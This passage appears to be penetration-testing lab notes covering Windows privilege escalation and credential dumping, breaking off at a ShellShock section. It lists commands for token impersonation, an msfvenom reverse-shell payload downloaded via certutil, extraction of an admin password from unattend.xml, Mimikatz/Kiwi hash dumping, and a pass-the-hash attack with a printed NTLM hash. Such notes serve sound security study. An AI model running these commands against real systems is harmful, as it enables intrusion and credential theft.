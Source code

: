 				- - `pgrep explorer`
				- `getuid`
				- `load incognito`
				- `list_tokens -u`
				- `impersonate_token "ATTACKDEFENSE\\Administrator”`
				- `prgerp explorer`
				- `getprivs`
				- `list_tokens -u`
				- `impersonate_token "NT AUTHORITY\\SYSTEM”`
			- Credential dumping
				- unattended files
					- - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe - create payload`
					- python -m SimpleHTTPServer 80 - setup the web server and host the payload
					- `certutil -urlcache -f <http://10.10.4.2/payload.exe> bad.exe` - download the file to victim machine using certutil
					- `msfconsole -q`
					- `use multi/handler set payload windows/x64/meterpreter/reverse_tcp set LPORT 1234 set LHOST 10.10.4.2 run`
					- Execute the `bad.exe` on the Win target system and check the reverse shell on Kali
					- `cd C:\\Windows\\Panther`
					- `download unattend.xml`
					- open the unattend.xml file - found the admin password with base64 encode
					- Decode the password
					- Test the `administrator`:`Admin@123root` credentials with the `psexec` tool
					- `psexec.py administrator@10.4.19.9
				- Mimikatz and kiwi
					- - Got meterpreter session
					- `sysinfo getuid pgrep lsass migrate 768`
					- **Hashdump - Kiwi**
					- `load kiwi`
					- `creds_all`
					- `lsa_dump_sam`
					- `lsa_dump_secrets`
					- **Hashdump Mimikatz**
					- `cd C:\\\\ mkdir Temp cd Temp` meterpreter > `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` `shell`
					- `mimikatz.exe` - run mimikatz
					- `lsadump::sam`
					- `lsadump::secrets`
					- `sekurlsa::logonPasswords`
				- Pass the hash attack
					- - `nmap -sV -p 80 10.2.23.202`
					- Got meterpreter session
					- `pgrep lsass migrate 772 getuid`
					- `load kiwi`
					- `lsa_dump_sam`
					- Copy and save the Administartor and students NTLM hashes
					- `hashdump`
					- LM+NTLM hash is necessary, so copy the string:
					- `background search psexec use exploit/windows/smb/psexec options`
					- `set LPORT 4422 set RHOSTS 10.2.23.202 set SMBUser Administrator set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`
					- `exploit`
					- `getuid, sysinfo`
					- `crackmapexec smb 10.2.23.202 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "whoami”`
	- Linux
		- Exploiting vulnerabilities
			- ShellShock
				- - `nmap -sV 192.173.104.3`
				- Browse [http://192.173.104.3/gettime.cgi](http://192.173.104.3/gettime.cgi)
				- Vuln check - `nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.173.104.3`
				- `msfconsole`